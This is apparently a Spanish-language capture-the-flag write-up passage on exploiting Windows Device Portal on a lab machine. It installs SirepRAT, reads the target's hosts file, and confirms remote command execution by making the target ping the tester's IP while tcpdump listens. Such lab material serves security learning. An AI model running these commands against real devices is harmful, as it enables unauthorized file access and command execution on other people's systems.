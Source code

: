 ## Vulnerability Assessment {-}

### Windows Device Portal {-}

```bash
git clone https://github.com/SafeBreach-Labs/SirepRAT
cd SirepRAT
python3 setup.py install
pip install -r requirements.txt

python3 SirepRAT.py
```

Intentamos leer un archivo de la maquina victima

```bash
python3 SirepRAT.py 10.10.10.204 GetFileFromDevice --remote_path "C:\Windows\System32\drivers\etc\hosts" --v
```

Aqui vemos que podemos leer archivos del systema. Intentamos ejecutar comandos.

Nos ponemos en escucha por trasa ICMP

```bash
tcpdump -i tun0 icmp -n
```

y ejecutamos el comando

```bash
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args " /c ping 10.10.14.8" --v
```

Aqui vemos que recibimos la traza y que tenemos capacidad de ejecucion remota de comando.
